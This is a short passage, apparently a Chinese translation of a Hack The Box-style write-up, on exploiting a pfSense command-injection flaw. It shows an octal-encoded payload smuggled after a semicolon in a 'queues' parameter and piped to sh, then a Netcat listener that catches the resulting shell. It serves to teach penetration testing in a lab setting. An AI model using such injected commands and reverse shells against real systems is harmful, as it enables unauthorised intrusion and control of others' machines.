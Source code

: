 现在我们有了有效载荷，让我们把它转换成一个八进制字符串。这可以通过脚本或任何在线工具来完成。转换后，我们应该将其传递给 *printf* 命令，如下所示:

```
queues;printf+'\155\153\146\151\146\157\40(...)'|sh
```

现在我们只需要像以前一样使用 Netcat 启动本地服务器，然后在浏览器中请求 URL:

![](img/7e1d1fe13b9f0d962dff433bd93cdf17.png)

最后，正如你在下面看到的，它成功了:

![](img/15e016b9441ac7f454d52d527264341b.png)

参考资料:

*   [千变万化安全— Pfsense 漏洞](https://www.proteansec.com/linux/pfsense-vulnerabilities-part-2-command-injection/)

查看我的另一篇关于蹩脚盒子的文章:

*   [潜入 Lame —黑掉盒子](https://medium.com/rd-shipit/dive-into-hack-the-box-lame-ec44fccb5711)